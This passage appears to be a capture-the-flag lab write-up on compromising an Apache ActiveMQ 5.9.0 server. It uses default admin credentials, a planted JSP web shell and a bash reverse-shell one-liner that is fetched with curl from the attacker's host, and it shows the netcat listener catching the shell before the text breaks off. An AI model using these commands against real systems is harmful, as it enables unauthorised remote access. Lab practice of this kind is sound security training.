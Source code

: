 ```
Host: 10.10.5.130:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
cookie: JSESSIONID=1sd10clrjxccpnpfw7y3nmhk9
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
```
1234
 total 9984
drwxr-sr-x 1 activemq activemq     4096 Dec 26 04:45 .
drwxr-xr-x 1 root     root         4096 Dec 25 18:16 ..
-rw-r--r-- 1 activemq activemq    40580 Oct 14  2013 LICENSE
-rw-r--r-- 1 activemq activemq     3334 Oct 14  2013 NOTICE
-rw-r--r-- 1 activemq activemq     2610 Oct 14  2013 README.txt
-rwxr-xr-x 1 activemq activemq 10105484 Oct 14  2013 activemq-all-5.9.0.jar
drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:17 bin
-rw-rw-r-- 1 activemq activemq     1443 Dec 25 17:50 chat.py
drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:16 conf
drwxr-xr-x 1 activemq activemq     4096 Dec 26 04:45 data
-rw-r--r-- 1 activemq activemq       23 Dec 25 18:16 flag.txt
drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:16 lib
-r-x------ 1 activemq activemq      143 Dec 25 17:50 start.sh
-rw-rw-r-- 1 activemq activemq      768 Dec 25 17:50 subscribe.py
drwxr-sr-x 5 activemq activemq     4096 Mar 14 23:15 tmp
drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:17 webapps
```
Let upload a bash one liner as a shell script and then try and get a shell connection via this RCE
```
cat shell.sh
bash -c "bash -i >& /dev/tcp/10.13.1.12/4242 0>&1"
``
Host a webserver and curl for the file
```
http://10.10.5.130:8161/admin/test.jsp?cmd=curl+10.13.1.12%3a8000/shell.sh+-o+shell.sh
```
set up our listener and run it with bash shell.sh
```
http://10.10.5.130:8161/admin/test.jsp?cmd=bash+shell.sh
```
We get a reverse shell back and can find the user flag
```
# nc -nlvp 4242                                                                                 
listening on [any] 4242 ...
connect to [10.13.1.12] from (UNKNOWN) [10.10.5.130] 42380
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
activemq@activemq:/opt/apache-activemq-5.9.0$ ls -la
ls -la
total 9988
drwxr-sr-x 1 activemq activemq     4096 Mar 15 00:31 .
drwxr-xr-x 1 root     root         4096 Dec 25 18:16 ..
-rw-r--r-- 1 activemq activemq    40580 Oct 14  2013 LICENSE
-rw-r--r-- 1 activemq activemq     3334 Oct 14  2013 NOTICE
-rw-r--r-- 1 activemq activemq     2610 Oct 14  2013 README.txt
-rwxr-xr-x 1 activemq activemq 10105484 Oct 14  2013 activemq-all-5.9.0.jar
drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:17 bin
-rw-rw-r-- 1 activemq activemq     1443 Dec 25 17:50 chat.py